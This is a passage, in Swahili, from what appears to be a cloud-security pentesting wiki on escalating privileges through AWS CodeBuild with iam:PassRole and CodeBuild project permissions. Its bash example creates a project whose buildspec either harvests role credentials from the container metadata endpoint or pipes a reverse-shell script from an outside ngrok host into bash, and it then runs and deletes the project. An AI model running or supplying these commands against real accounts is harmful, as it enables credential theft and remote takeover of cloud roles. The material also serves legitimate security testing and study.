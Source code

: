 **Kumbuka**: Tofauti kati ya amri hizi mbili ni kwamba:

- `StartBuild` inachochea kazi moja ya kujenga kwa kutumia `buildspec.yml` maalum.
- `StartBuildBatch` inakuwezesha kuanzisha kundi la ujenzi, ikiwa na mipangilio tata zaidi (kama kuendesha ujenzi kadhaa kwa wakati mmoja).

**Athari Zinazoweza Kutokea:** Privesc moja kwa moja kwa majukumu ya AWS Codebuild yaliyoambatanishwa.

### `iam:PassRole`, `codebuild:CreateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

Mshambuliaji mwenye ruhusa **`iam:PassRole`, `codebuild:CreateProject`, na `codebuild:StartBuild` au `codebuild:StartBuildBatch`** angeweza **kuinua mamlaka kwa yoyote majukumu ya IAM ya codebuild** kwa kuunda moja inayotembea.

{{#tabs }}
{{#tab name="Example1" }}
```bash
# Enumerate then env and get creds
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | bash"

JSON="{
\"name\": \"codebuild-demo-project\",
\"source\": {
\"type\": \"NO_SOURCE\",
\"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
},
\"artifacts\": {
\"type\": \"NO_ARTIFACTS\"
},
\"environment\": {
\"type\": \"LINUX_CONTAINER\",
\"image\": \"aws/codebuild/standard:1.0\",
\"computeType\": \"BUILD_GENERAL1_SMALL\"
},
\"serviceRole\": \"arn:aws:iam::947247140022:role/codebuild-CI-Build-service-role-2\"
}"


REV_PATH="/tmp/rev.json"

printf "$JSON" > $REV_PATH

# Create project
aws codebuild create-project --name codebuild-demo-project --cli-input-json file://$REV_PATH

# Build it
aws codebuild start-build --project-name codebuild-demo-project

# Wait 3-4 mins until it's executed
# Then you can access the logs in the console to find the AWS role token in the output

# Delete the project
aws codebuild delete-project --name codebuild-demo-project
```
{{#endtab }}
